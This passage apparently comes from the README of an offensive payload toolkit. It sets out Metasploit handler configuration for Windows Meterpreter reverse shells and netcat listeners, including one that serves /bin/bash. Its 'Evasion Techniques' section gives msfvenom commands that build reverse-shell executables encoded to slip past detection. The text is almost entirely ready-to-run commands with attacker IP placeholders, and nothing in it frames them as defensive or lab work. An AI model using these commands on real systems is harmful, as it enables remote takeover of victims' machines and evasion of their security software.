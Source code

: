 
## 🚀 Payload Handlers

### Metasploit Handler Setup
```bash
# Start Metasploit
msfconsole

# Configure handler
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST {YOUR_IP}
msf6 exploit(multi/handler) > set LPORT {YOUR_PORT}
msf6 exploit(multi/handler) > run
```

### Advanced Handler Configuration
```bash
# Multiple sessions
msf6 exploit(multi/handler) > set ExitOnSession false

# Enable payload encoding
msf6 exploit(multi/handler) > set EnableStageEncoding true

# Set custom user agent (for HTTP payloads)
msf6 exploit(multi/handler) > set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
```

### Netcat Listeners (for simple shells)
```bash
# Basic netcat listener
nc -lvnp {LPORT}

# Netcat with verbose output
nc -lvnp {LPORT} -e /bin/bash
```

---

## 🛡️ Evasion Techniques

### Encoding Options
```bash
# Avoid bad characters
msfvenom -p windows/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -b '\x00\xff\x0a\x0d' -f exe > clean.exe

# Add NOP sled
msfvenom -p windows/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -n 200 -f exe > nop_payload.exe

# Custom iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -e x86/shikata_ga_nai -i 10 -f exe > heavily_encoded.exe
```
